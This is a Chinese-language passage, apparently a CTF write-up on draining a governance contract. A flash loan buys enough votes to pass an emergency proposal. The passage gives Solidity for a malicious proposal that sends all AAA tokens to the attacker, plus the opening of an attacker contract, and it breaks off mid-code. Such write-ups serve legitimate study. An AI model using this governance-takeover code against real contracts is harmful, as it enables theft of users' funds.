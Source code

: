 ```solidity
```

合约的主要内容为

- 提案的基准票数百分比为4%
- 提案要求持有最低token为0，即谁都可以发送提案
- 提案开始投票时间为10个Block
- 提案持续时间为46027个Block

显然我们是等不到46027个Block的，所以我们需要用到`emergencyExecuteRightNow`立即执行提案。

查阅代码发`emergencyExecuteRightNow`需要满足条件
- _quorumReachedEmergency(proposalId)
  - proposalvote.forVotes > proposalvote.againstVotes*2
- _voteSucceededEmergency(proposalId))
  - quorum(proposalSnapshot(proposalId)) *2 <= proposalvote.forVotes + proposalvote.abstainVotes;

即赞成票大于反对票的2倍，并且大于4%*2=8%

因为提案无门槛，并且我们拥有闪电贷，借出大于8%的token，所以很容易可以构造一个攻击提案，将Gov合约中的所有AAA token都转到攻击者中。

### 恶意提案
    
```solidity
contract Proposal {
    address public immutable TokenAddress;
    address public immutable GovernorAddress; 
    address public immutable  HackerAddress;
    constructor(address token,address gov){
        TokenAddress = token;
        GovernorAddress = gov;
        HackerAddress = msg.sender;
    }
    function executeProposal() public {
        AAA a = AAA(TokenAddress);
        a.transfer(HackerAddress, a.balanceOf(GovernorAddress));
    }
}

```
恶意提案内容很简单，即将Gov合约中的所有AAA token转移到攻击者中。

这里出现了一个问题，在调试时发现所有地址都是0，后来查阅资料得知executeProposal是delegatecall调用的，使用的合约上下文是目标合约(gov合约)，所以必须将需要的addresss设为常量写死。官方解释为
>  constant and immutable variables do not occupy a storage slot, they are injected in the bytecode at compile time. 

而constant 和 immutable 的区别是constant必须在初始化时赋值，**immutable可以在构造函数中赋值**，因此在这我们选择immutable。

### 攻击合约

```solidity 
contract Hacker {
    AAA public a;
    Gov public g;
    address public ProposalAddress;
    uint256 public pid;
    constructor(address token, address gov) {
        a = AAA(token);
        g = Gov(payable(gov));
        ProposalAddress = address(new Proposal(token,gov));
        address[] memory _addr = new address[](1);
        _addr[0] = ProposalAddress;
        uint256[] memory _value = new uint256[](1);
        _value[0] = 0;
        bytes[] memory _sig = new bytes[](1);
        _sig[0] = abi.encodeWithSignature("executeProposal()");
        string memory _desc = "114514";
```